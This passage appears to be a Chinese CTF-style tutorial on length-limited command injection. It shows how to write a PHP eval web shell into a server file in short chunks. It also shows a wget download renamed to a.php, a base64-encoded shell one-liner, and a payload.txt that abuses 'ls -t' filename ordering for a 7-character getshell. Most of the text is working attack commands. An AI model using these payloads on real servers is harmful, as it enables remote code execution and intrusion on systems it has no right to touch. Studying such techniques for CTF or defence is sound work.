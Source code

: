 

- 方法1 

  ```
  wget 地址/a 使用wget下载文件
  mv a a.php 将a改名为a.php
  ```

- 方法2

  ```bash
  echo \<?php >1 #len=14
  echo eval\(>>1 #len=9
  echo \$_GET>>1 #len=14
  echo \[\'a\'>>1 #len=13
  echo \]\)\;>>1 #len=14
  mv 1 2.php #写马
  ```



![0DRCRg.png](https://s1.ax1x.com/2020/10/09/0DRCRg.png)

![0D2OsA.png](https://s1.ax1x.com/2020/10/09/0D2OsA.png)





##### 2.7个字符getshell

ls>a会将所有文件名输入到a里面，并且将ls按数字1~9，字母a~b排序, **但我们可以让它基于时间排序ls -t(从晚到早）**

并且如果命令太长可用\分割执行，接着sh a是将a里面的内容当做命令执行

![0rGiaq.png](https://s1.ax1x.com/2020/10/09/0rGiaq.png)

![0rGQd1.png](https://s1.ax1x.com/2020/10/09/0rGQd1.png)



由于我们的语句`<?php eval($_GET[1]);`有特殊字符，可使用base64编码来使语句容易写入，再用|base64 -d解码即可。
base64为：

```bash
PD9waHAgZXZhbCgkX0dFVFsxXSk7
# 执行的语句为
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

payload.txt的代码如下

```bash
#因为 ls -t为从晚到早排序，所以我们需要反着来写入shell，最后执行shell 生成1.php getshell
# \\将 \转义 写入文件名，单斜杠\代表此行输入还未结束，和下一行拼接
>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
```